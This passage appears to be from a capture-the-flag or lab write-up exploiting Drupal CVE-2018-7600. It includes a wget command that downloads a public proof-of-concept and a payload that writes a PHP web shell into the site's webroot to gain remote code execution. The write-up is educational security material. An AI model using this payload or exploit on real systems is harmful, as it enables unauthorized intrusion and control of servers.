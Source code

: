 It worked! This is a good check to do before trying to fix the Python exploit, so we don't waste any more time. With this knowledge, I had a look at the Metasploit module for information about how it worked. I also searched on Google for `CVE-2018-7600 exploit` - trying to find a better Python script. I found another exploit that looked like it had the correct user registration query.

```none
wget https://github.com/FireFart/CVE-2018-7600/raw/master/poc.py 
```

The original [`poc.py` script](https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7600.py) was a little messy, and it was difficult to figure out how it worked. The default payload worked, and the script ran without error. The output was from the `id` command - showing we have remote code execution.

I tried modifying the code execution portion of the script to get a reverse shell but was getting nowhere. Instead, I pieced together information from all the exploits I was trying to see how each worked. The best solution I found was to `echo` a payload into a local file that I could access. My final payload was a variation of my go-to PHP payload.

```python
payload = f"echo '<?php system($_REQUEST[\"cmd\"]) ?>' | tee sites/default/files/meow.php "
```

This will create a new file in the webroot under `sites/default/files`, called `meow.php`. The contents of the file will take a request parameter and execute it. Nifty! The image below shows the uploaded file.

![Payload upload](screenshots/80_exploit_upload.png)

And... code execution!

![Code execution](screenshots/80_exploit_codeexecution.png)
